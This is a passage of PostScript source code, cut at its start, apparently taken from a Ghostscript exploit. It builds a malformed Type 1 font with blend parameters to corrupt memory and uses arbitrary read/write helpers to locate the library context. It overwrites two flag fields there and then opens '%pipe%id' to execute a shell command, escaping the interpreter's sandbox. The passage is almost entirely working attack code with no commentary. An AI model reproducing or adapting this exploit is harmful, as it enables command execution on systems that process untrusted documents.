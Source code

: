```postscript
        (unknown header layout) = quit
    } loop

    {
        /head next def

        /next 8 string def
        /cname 8 string def
        /cname_str 21 string def

        head next arbrd
        head 32 ptradd cname arbrd
        cname cname_str arbrd

        cname_str (gs_lib_ctx_init(core)) eq { exit } if
    } loop

    /buf 4 string def
    /ptr1 head 188 ptradd def
    /ptr2 head 204 ptradd def
    ptr1 buf arbrd buf <01000000> eq { ptr1 <00000000> arbwr } if
    ptr2 buf arbrd buf <01000000> eq { ptr2 <00000000> arbwr } if

    (exec) = flush
    (%pipe%id) (w) file

    (done) =
    { 1 pop } loop

    quit
} def  % DONE

/MAIN {

/Myfont
<<
    /FontName /Myfont
    /FontType 1
    /FontMatrix [1 0 0 1 0 0]
    /Private << /lenIV -1 /Subrs [ <0E> ] >>
    /Decoding 0
    /Encoding [ /cs0 /cs1 /cs2 ]
    /CharStrings <<
        /.notdef <0E>
        /cs0 { TEXT 0 1 put /TARGET 312500 array def TARGET REFIDX OBJARR put }
        /cs1 <0E>
        /cs2 { DONE }
    >>
    /WeightVector [1]
    /$Blend {}
    /FontInfo <<
        /BlendAxisTypes [ /foo ]
        /BlendDesignPositions [[1]]
        /BlendDesignMap [[[1]]]
        /GlyphNames2Unicode << >>
    >>
    /Blend <<
        /FontBBox [[1]]
        /Private << >>
    >>
>>
.buildfont1
/FONT exch def
```